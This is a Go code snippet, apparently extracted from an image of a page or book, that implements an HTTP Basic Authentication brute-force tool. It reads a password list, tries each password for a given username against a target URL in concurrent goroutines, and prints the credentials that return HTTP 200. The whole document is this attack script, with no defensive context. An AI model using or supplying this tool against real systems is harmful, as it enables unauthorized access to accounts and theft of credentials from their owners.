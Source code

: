 ```go

func testBasicAuth(url, username, password string, doneChannel chan bool) { 
   client := &http.Client{} 
   request, err := http.NewRequest("GET", url, nil) 
   request.SetBasicAuth(username, password) 

   response, err := client.Do(request) 
   if err != nil { 
      log.Fatal(err) 
   } 
   if response.StatusCode == 200 { 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
         password) 
      os.Exit(0) 
    } 
    doneChannel <- true 
} 

func main() { 
   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testBasicAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```
